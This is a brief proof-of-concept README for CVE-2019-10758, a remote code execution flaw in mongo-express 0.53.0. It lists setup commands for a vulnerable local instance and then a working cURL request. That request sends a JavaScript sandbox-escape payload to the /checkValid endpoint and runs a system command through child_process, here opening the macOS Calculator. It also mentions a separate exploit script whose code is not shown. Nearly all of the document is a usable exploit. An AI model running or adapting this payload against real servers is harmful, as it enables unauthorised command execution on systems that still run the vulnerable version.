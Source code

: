 # CVE-2019-10758 PoC


## Setup

```
docker run -p 27017:27017 -d mongo
npm install mongo-express@0.53.0 
cd node_modules/mongo-express/ && node app.js
```

## cURL exploit
```
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'
```

## Script exploit
```
node main.js
```
